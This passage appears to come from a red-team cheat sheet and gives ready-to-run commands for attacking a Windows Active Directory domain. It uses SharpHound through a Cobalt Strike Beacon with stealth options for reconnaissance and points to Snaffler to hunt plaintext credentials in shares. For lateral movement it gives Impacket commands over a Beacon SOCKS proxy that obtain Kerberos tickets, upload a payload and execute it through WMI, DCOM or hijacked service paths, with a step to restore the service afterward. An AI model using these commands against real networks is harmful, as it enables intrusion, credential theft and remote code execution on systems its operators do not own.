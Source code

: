 Run the following methods one at a time, mix up the order as desired:

`bofnet_executeassembly Sharphound --CollectionMethods Group --Domain TARGETDOMAIN --Memcache --RandomFilenames`

`bofnet_executeassembly Sharphound --CollectionMethods Trusts --Domain TARGETDOMAIN --Memcache --RandomFilenames`

`bofnet_executeassembly Sharphound --CollectionMethods ACL --Domain TARGETDOMAIN --Memcache --RandomFilenames`

`bofnet_executeassembly Sharphound --CollectionMethods ObjectProps --Domain TARGETDOMAIN --Memcache --RandomFilenames`

`bofnet_executeassembly Sharphound --CollectionMethods Container --Domain TARGETDOMAIN --Memcache --RandomFilenames`

`bofnet_executeassembly Sharphound --CollectionMethods GPOLocalGroup --Domain TARGETDOMAIN --Memcache --RandomFilenames`

If stuck and need to do Session and Localadmin collection, target specific systems of interest:

`bofnet_executeassembly Sharphound --CollectionMethods Session,LocalAdmin --Domain TARGETDOMAIN --ComputerFile c:\path\to\target\systems.list --Jitter 20 --Throttle 2000 --Memcache --RandomFilenames`

### Windows Share Enumeration
---
Hunt for sensitive files, scripts, and plaintext credentials in accessible shares. Speed it up (_can be loud_) by using this amazing tool: [Snaffler](https://github.com/SnaffCon/Snaffler) by [l0ss](https://github.com/l0ss). 

## Lateral Movement
### [Impacket](https://github.com/fortra/impacket) over SOCKS through Proxychains
---
Start SOCKS5 in a Cobaltstrike Beacon, add it into your local `/etc/proxychains4.conf` file

Get a TGT (using hash or plaintext)
 - `proxychains4 impacket-getTGT 'DOMAIN.COM/username:p@SsW0rD!'`

Upload payload to targethost
 - `proxychains4 impacket-smbclient 'DOMAIN.COM/username:'@targethostname.domain.com -no-pass -k`

Execute payload. Example of a few notable methods:

`impacket-wmiexec`
 - `proxychains4 impacket-wmiexec -nooutput -silentcommand -no-pass -k 'DOMAIN.COM/username:'@targethostname.domain.com 'C:\Windows\System32\cmd.exe /c C:\Path\To\Payload\maybe.exe'`

`impacket-dcomexec`
 - `proxychains4 impacket-dcomexec -object MMC20 -nooutput -silentcommand -no-pass -k 'DOMAIN.COM/username:'@targethostname.domain.com 'C:\Windows\System32\cmd.exe /c C:\Path\To\Payload\maybe.exe'`

`impacket-services`
 - `proxychains4 impacket-services 'DOMAIN.COM/username:'@targethostname.domain.com config -name ServiceName`
   - _Note down current config to change it back later_
 - `proxychains4 impacket-services 'DOMAIN.COM/username:'@targethostname.domain.com change -name ServiceName -path 'C:\windows\system32\cmd.exe /c C:\Path\To\Payload\maybe.exe'`
 - `proxychains4 impacket-services 'DOMAIN.COM/username:'@targethostname.domain.com start -name ServiceName`
 - `proxychains4 impacket-services 'DOMAIN.COM/username:'@targethostname.domain.com change -name ServiceName -path 'CHANGE BACK TO OLD CONFIG NOTED FROM EARLIER'`
   